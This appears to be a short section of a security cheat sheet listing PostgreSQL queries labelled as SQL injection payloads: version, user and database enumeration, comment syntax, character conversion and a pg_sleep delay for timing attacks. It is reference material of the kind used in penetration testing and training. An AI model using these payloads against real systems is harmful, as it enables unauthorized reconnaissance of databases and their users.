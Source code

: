 PostgresSQL Payload
=====================================

- Version 
    - ``SELECT version()``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user``
    - ``SELECT current_user``
    - ``SELECT session_user``
    - ``SELECT getpgusername()``
- List User
    - ``SELECT usename FROM pg_user``
- Current Database
    - ``SELECT current_database()``
- List Database
    - ``SELECT datname FROM pg_database``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
- Delay
    - ``pg_sleep(1)``
